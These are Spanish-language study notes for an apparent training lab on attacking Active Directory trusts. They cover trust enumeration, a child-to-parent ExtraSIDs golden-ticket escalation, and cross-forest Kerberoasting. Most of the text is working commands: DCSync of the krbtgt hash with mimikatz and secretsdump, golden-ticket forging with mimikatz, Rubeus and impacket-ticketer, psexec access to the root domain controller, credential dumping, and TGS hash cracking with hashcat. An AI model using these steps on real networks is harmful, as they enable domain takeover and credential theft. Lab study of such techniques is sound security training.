 ## Enumerando relaciones de confianza
### **Get-ADTrust (Module `ActiveDirectory`)**
Nos muestra relaciones de confianza, dirección y tipo. Indica además si la confianza es transitiva o está limitado al bosque.
```powershell
Import-Module activedirectory
Get-ADTrust -Filter *
```
### Get-DomainTrust (`Powerview`)
Detalla los dominios de confianza y la relación del trust
```powershell
Import-Module PowerView.ps1
Get-DomainTrust
```
Además de este comando podemos utilizar `Get-DomainTrustMappig`, que identifica además puntos de movimiento lateral y ayuda a visualizar rutas de ataque con bloodhound
```powershell
Get-DomainTrustMapping
```
### Mostrando usuarios en child Domain con `Get-domainUser`
```powershell
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

### Mostrar relaciones con `netdom` - `cmd`
Se puede ejecutar desde cmd y es nativa de Windows
- Mostrar relaciones de confianza
    ```powershell
    netdom query /domain:inlanefreight.local trust
    ```
- Mostrar DC
    ```powershell
     netdom query /domain:inlanefreight.local dc
    ```
- Mostrar workstations y servidores
    ```powershell
    netdom query /domain:inlanefreight.local workstation
    ```
## Escalada parent Domain con  extraSIDs attack
El ataque consiste en inyectar un SID de cuentas privilegiadas en el `sidHistory` de una cuenta comprometida con un golden ticket. Si el dominio padre no tiene SID Filtering habilitado, la cuenta comprometida podrá moverse lateralmente hacia el dominio padre. 
### Windows
#### Requisitos
- **Hash NT del KRBTGT del dominio hijo** (obtenido con DCSync).
    ```powershell
    mimikatz # lsadump::dcsync /user:LOGISTICS\\krbtgt
    ```
- **SID del dominio hijo**.
    ```powershell
     Get-DomainSID
    ```
- **Nombre de un usuario objetivo** (puede ser inventado).
    ```powershell
    hacker
    ```
- **FQDN del dominio hijo**.
    ```powershell
    LOGISTICS.INLANEFREIGHT.LOCAL
    ```
- **SID del grupo `Enterprise Admins` en el dominio raíz**.
    ```powershell
    Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
    ```
#### Ataque - Generación de golden ticket
##### Con mimikatz
- Con la información recolectad podemos crear un `Golden Ticket` con Mimikatz
    ```powershell
    kerberos::golden /user:<usuario> /domain:<dominio> /sid:<sid_child> /krbtgt:<hashkrbtgt> /sids:<sid_parent> /ptt
    kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
    ```
- Podemos comprobar que el ticket está en memoria:
    ```powershell
    klist
    ```
- Y mostrar el contenido de C del dc, por ejemplo:
    ```powershell
    ls \\\\academy-ea-dc01.inlanefreight.local\\c$
    ```
##### Con Rubeus
El siguiente comando, además de cargar el ticket en memoria lo mostrará en formato base64
```powershell
 .\\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

### Linux
#### Automatizado - `raisechild`
Impacket tiene una heramienta llamada `raisechild`, que recopila toda la información necesaria por nosotros, por lo que solo tenemos que escribir:
```powershell
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
#### Sin automatizar
##### Requisitos
- **Hash NT del KRBTGT del dominio hijo**
    ```powershell
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
    #resultado del siguiente tipo
    usuario:RID:LM_hash:NT_hash:::
    ```
    - **`just-dc-user LOGISTICS/krbtgt`** – Extrae solo el hash de KRBTGT.
    - **`htb-student_adm`** – Cuenta con privilegios en el dominio hijo.
- **SID del dominio hijo**. Utilizaremos la herramienta [looksid.py](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
    ```powershell
    python3 /opt/impacket/build/scripts-3.9/lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
    ```
- **Nombre de un usuario objetivo** (puede ser inventado).
    ```powershell
    hacker
    ```
- **FQDN del dominio hijo**.
    ```powershell
    LOGISTICS.INLANEFREIGHT.LOCAL
    ```
- **SID del grupo `Enterprise Admins` en el dominio raíz**.
    ```powershell
    python3 /opt/impacket/build/scripts-3.9/lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
    
    Password:
    [*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
    498: INLANEFREIGHT\\Enterprise Read-only Domain Controllers (SidTypeGroup)
    500: INLANEFREIGHT\\administrator (SidTypeUser)
    501: INLANEFREIGHT\\guest (SidTypeUser)
    502: INLANEFREIGHT\\krbtgt (SidTypeUser)
    512: INLANEFREIGHT\\Domain Admins (SidTypeGroup)
    513: INLANEFREIGHT\\Domain Users (SidTypeGroup)
    514: INLANEFREIGHT\\Domain Guests (SidTypeGroup)
    515: INLANEFREIGHT\\Domain Computers (SidTypeGroup)
    516: INLANEFREIGHT\\Domain Controllers (SidTypeGroup)
    517: INLANEFREIGHT\\Cert Publishers (SidTypeAlias)
    518: INLANEFREIGHT\\Schema Admins (SidTypeGroup)
    519: INLANEFREIGHT\\Enterprise Admins (SidTypeGroup)
    ```
    Como resultado sería: `S-1-5-21-3842939050-3880317879-2865463114-519` 
    Se hace la consulta con las credenciales del dominio hijo, `logistics.inlanefreight.local` al dominio raíz ( DC: 172.16.5.5)
##### Ataque
- Generación de golden ticket utilizando `ticketer.py`
	```powershell
	impacket-ticketer -nthash <hash_krbtgt> -domain <dominio_hijo> -domain-sid <sid_hijo> -extra-sid <sid_enterpriseAdmins> hacker
	impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
	```
	Genera un ticket con el nombre `hacker.ccache`
- Acceso al dominio raíz
	```bash
	export KRB5CCNAME=hacker.ccache psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
	```
- Volcado de credenciales (ej: usuario privilegiado `bross`)
	```bash
	secretsdump.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -just-dc-user bross
	```
## Cross-Forest Kerberoasting 
- En entornos con **relaciones de confianza entre bosques (forest trusts)**, es posible que un dominio permita a usuarios autenticarse y solicitar tickets de servicio (TGS) para acceder a recursos en otro dominio o bosque.
- Si hay cuentas con **SPNs expuestos** en el bosque remoto, los atacantes pueden solicitar estos tickets, exportarlos y **crackearlos offline** para obtener la contraseña de la cuenta de servicio objetivo.
### Windows 
- Enumerar cuentas con SPN en el dominio objetivo usando `Get-DomainUser`
    ```powershell
    Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
    ```
    
- Validar si la cuenta pertenece a `Domain Admins` o tiene privilegios elevados
    ```powershell
    Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
    ```
    
- Realizar Kerberoasting con `Rubeus` para solicitar tickets TGS.
    ```powershell
    .\\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
    ```
    
- Crackear con hashcat
    ```powershell
    hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
    ```

### Linux
- Enumeración de cuentas SPN con `GetUsersSPN.py`
    ```powershell
    impacket-GetUserSPNs -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
    ```
    
- Con la flag `-requets` obtenemos el ticket TGT
    ```powershell
    impacket-GetUserSPNs -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  
    ```
- Crackear con hashcat y opción `-13100`